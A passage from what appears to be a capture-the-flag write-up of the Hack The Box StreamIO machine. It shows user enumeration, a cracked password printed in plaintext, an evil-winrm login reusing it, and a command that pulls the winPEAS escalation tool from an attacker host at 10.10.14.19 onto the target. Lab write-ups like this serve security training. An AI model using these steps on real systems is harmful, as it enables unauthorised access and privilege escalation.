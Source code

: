 

We start now enumerate the privileges of the users we have to choose the best user:

```
PS C:\inetpub\streamio.htb\admin> net user nikk37
net user nikk37
User name                    nikk37
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/22/2022 2:57:16 AM
Password expires             Never
Password changeable          2/23/2022 2:57:16 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/22/2022 3:39:51 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users         
The command completed successfully.
```


and boom, nikk37 is one of the domain users.
let's crack it is password.

and we got the following credentials:
```
nikk37:get_dem_girls2@yahoo.com
```


now we pivot to nikk37:
```
evil-winrm -i streamio.htb -u nikk37 -p get_dem_girls2@yahoo.com
```



Now, time for priv esc using WinPEas:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe -O winpeas.exe
```

```
*Evil-WinRM* PS C:\Users\nikk37\Desktop> Invoke-WebRequest -Uri http://10.10.14.19:8000/winpeas.exe -OutFile C:\Users\nikk37\Documents\winpeas.exe
```
